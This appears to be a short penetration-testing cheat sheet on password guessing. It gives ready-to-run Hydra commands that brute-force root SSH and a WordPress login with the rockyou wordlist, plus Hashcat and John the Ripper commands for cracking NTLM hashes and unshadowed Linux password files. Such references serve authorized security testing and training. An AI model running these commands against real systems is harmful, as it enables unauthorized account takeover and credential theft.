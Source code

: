 <p align="right">
  <a href="/README.md">Home Page</a> |
  <a href="/CheatSheets/exploit-password-guessing.md#table-of-contents">Top of Page</a> |
  <a href="/CheatSheets/exploit-password-guessing.md#john-the-ripper">Bottom of Page</a>
</p>

# Cheatsheet - Password Guessing
## Table of Contents
* [Online](#online)
  * [Hydra](#hydra) 
* [Offline](#offline)
  * [Hashcat](#hashcat)
  * [John the Ripper](#john-the-ripper)

## Online
### Hydra
```bash
hydra -l root -P /usr/share/wordlists/rockyou.txt $TARGET -t4 ssh
hydra -l root -P /usr/share/wordlists/rockyou.txt $TARGET http-post-form "/blog/wp-login.php?:log=^USER^&pwd=^PASS^:Error"
```

## Offline
### Hashcat
```bash
hashcat -m 1000 -a 0 --force --show hashes.dump /usr/share/wordlists/rockyou.txt 
```

### John the Ripper
```bash0 
unshadow demo-passwd demo-shadow > demo-unshadow
john demo-unshadow --wordlist=/usr/share/wordlists/rockyou.txt
```
